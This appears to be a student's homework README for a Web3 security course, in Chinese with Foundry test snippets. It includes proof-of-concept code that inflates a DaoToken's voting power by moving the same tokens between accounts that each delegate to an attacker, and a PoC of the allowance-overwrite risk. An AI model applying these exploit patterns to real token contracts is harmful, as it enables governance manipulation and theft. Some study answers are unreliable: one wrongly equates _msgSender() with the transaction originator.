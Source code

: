 # Web3-Security-Dev-Batch-1-HW

### w2

#### 個人作業

找出 DaoToken 合約的漏洞，並說明其漏洞為何且撰寫一個 PoC
poc location: test/DaoToken.t.sol testExploit()

```solidity
//hacker以 alice 的private-key操作
vm.startPrank(alice);
daoToken.transfer(bob, 1000);

//hacker以 bob 的private-key操作
vm.startPrank(bob);
daoToken.delegate(hacker);
daoToken.transfer(carol, 1000);

//hacker以 carol 的private-key操作
vm.startPrank(carol);
daoToken.delegate(hacker);
daoToken.transfer(hacker, 1000);

vm.startPrank(hacker);
daoToken.delegate(hacker);
```

---

#### 團體作業

Q1: Why the state variable \_totalSupply is set to private?
--> public state variables 有 getter

Q2: Why the state variable \_balances is set to private?
--> public state variables 有 getter

Q3: What is difference between \_msgSender() and msg.sender?
Q4: Why use it here?
--> 當合約呼叫合約，則 msg.sender 會是呼叫方，\_msgSender()則是整個交易的發起者
--> 可區別交易由誰呼叫

Q5: Why the state variable \_allowances is set to private?
--> public state variables 有 getter

Q6: What is the potential risk of directly overwriting the old value of \_allowance? (Write a PoC to validate it)

```solidity
vm.prank(alice);
daoToken.approve(bob, 100);

vm.prank(bob);
daoToken.transferFrom(alice, bobAnotherAcct, 100);

vm.prank(alice);
daoToken.approve(bob, 50);

vm.prank(bob);
uint256 allowanceMoney = daoToken.allowance(alice, bob);
uint256 balance = daoToken.balanceOf(bobAnotherAcct);
assertEq(allowanceMoney , 50);
assertEq(balance, 100);
```

Q7: What is an unchecked block?
--> 一般算式有可能 under/overflow，為了避免發生會有相對應的檢查，從而衍生 gas fee。
但如果確定不會 under/overflow，就可以放在 unchecked block，就可以必免 gas fee。

Q8: Why use it here?
(Write a Poc to validate it )
--> 代表這個算是一定不會 under/overflow

Q9: Zero address is invalid in ERC721, but not in ERC20 and ERC1155. Why?
--> 因為 ERC721 的每個 token 都是獨一無二的，不像 ERC20/ ERC1155 token 是無法識別 id 的。

Q10: The code size of an address greater than zero bytes is a contract.Does it mean the code size of an address equal zero bytes is a EOA? (Write a PoC to validate it)

```solidity

    DaoToken daoToken;
	address public owner = address(1);

	function setUp() public {
		vm.startPrank(owner);
		daoToken = new DaoToken();
		vm.stopPrank();
  	}

    function testContractCodeSize() public{
		address contractAddr = address(daoToken);
		uint length = contractAddr.code.length;

		if(length > 0){
			console.log("contract length>0", length);
		} else {
			console.log("contract length==0", length);
		}
	}

	function testEOACodeSize() public{
		uint length = owner.code.length;
		assertEq(length , 0);
	}

```

Q11: What doest the assembly block actually do?

1. low-level 操作底層，而不是透過 solidity 語法
2. 優化效能，減少 gas fee
3. 和外部的合約或 Libraries 互動，這些可能不是 solidity 寫的內容
4. 以 opcode 可以直接和 EVM 互動

